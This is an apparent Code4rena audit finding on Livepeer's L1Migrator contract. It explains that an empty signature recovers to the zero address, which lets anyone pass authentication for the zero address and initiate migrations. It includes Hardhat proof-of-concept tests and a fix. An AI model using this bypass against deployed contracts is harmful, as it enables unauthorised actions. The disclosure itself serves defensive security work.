 ## Tags

- bug
- 1 (Low Risk)
- resolved
- sponsor confirmed

# [Signature authentication bypass for ZERO address](https://github.com/code-423n4/2022-01-livepeer-findings/issues/142) 

# Handle

kemmio


# Vulnerability details

## Impact
Vulnerability in requireValidMigration() function gives opportunity to authenticate on behalf of ZERO address (l1addr == ZERO) and migrate locked up bonds, delegators, sender

## Proof of Concept

L1Migrator contract's functions migrateDelegator(), migrateUnbondingLocks(), migrateSender() use requireValidMigration() to authenticate the migration request, as can be seen in:
https://github.com/livepeer/arbitrum-lpt-bridge/blob/main/contracts/L1/gateway/L1Migrator.sol#L164-L173
https://github.com/livepeer/arbitrum-lpt-bridge/blob/main/contracts/L1/gateway/L1Migrator.sol#L214-L228
https://github.com/livepeer/arbitrum-lpt-bridge/blob/main/contracts/L1/gateway/L1Migrator.sol#L267-L274

requireValidMigration() checks if l2addr=ZERO and reverts in that's the case:
https://github.com/livepeer/arbitrum-lpt-bridge/blob/main/contracts/L1/gateway/L1Migrator.sol#L506-L509

Next it checks wether msg.sender==l1addr or tries to authenticate with signature otherwise:
https://github.com/livepeer/arbitrum-lpt-bridge/blob/main/contracts/L1/gateway/L1Migrator.sol#L510-L514

It calls recoverSigner() for that purpose which calls ECDS.recover to recover signing address, but before that it checks if signature is empty and returns address(0):
https://github.com/livepeer/arbitrum-lpt-bridge/blob/main/contracts/L1/gateway/L1Migrator.sol#L522-L524

This functionality can be abused to bypass authentication for ZERO address

Proof of Concept:
(add this tests to ./test/unit/L1/l1Migrator.test.ts and run "yarn test test/unit/L1/l1Migrator.test.ts" )
```
      it('migrates delegator for l1addr==ZERO auth', async () => {

        const sig = '0x';
        let tx = l1Migrator
            .connect(notL1EOA)
            .migrateDelegator('0x0000000000000000000000000000000000000000', l1EOA.address, '0x', 0, 0, 0, {
              value: ethers.utils.parseEther('1'),
            });
        await expect(tx).to.emit(l1Migrator,'MigrateDelegatorInitiated');
      });
      it('migrates unbonding locks for l1addr==ZERO auth', async () => {

        const sig = '0x';
        let tx = l1Migrator
            .connect(notL1EOA)
            .migrateUnbondingLocks(
                '0x0000000000000000000000000000000000000000',
                l1EOA.address,
                [],
                '0x',
                0,
                0,
                0,
                {
                  value: ethers.utils.parseEther('1'),
                },
            );
        await expect(tx).to.emit(l1Migrator,'MigrateUnbondingLocksInitiated');
      });
      it('migrates sender for l1addr==ZERO auth', async () => {

        const sig = '0x';
        let tx = l1Migrator
            .connect(notL1EOA)
            .migrateSender('0x0000000000000000000000000000000000000000', l1EOA.address, '0x', 0, 0, 0, {
              value: ethers.utils.parseEther('1'),
            });
        await expect(tx).to.emit(l1Migrator,'MigrateSenderInitiated');
      });
```

## Tools Used

## Recommended Mitigation Steps
Remove these lines:
https://github.com/livepeer/arbitrum-lpt-bridge/blob/main/contracts/L1/gateway/L1Migrator.sol#L522-L524

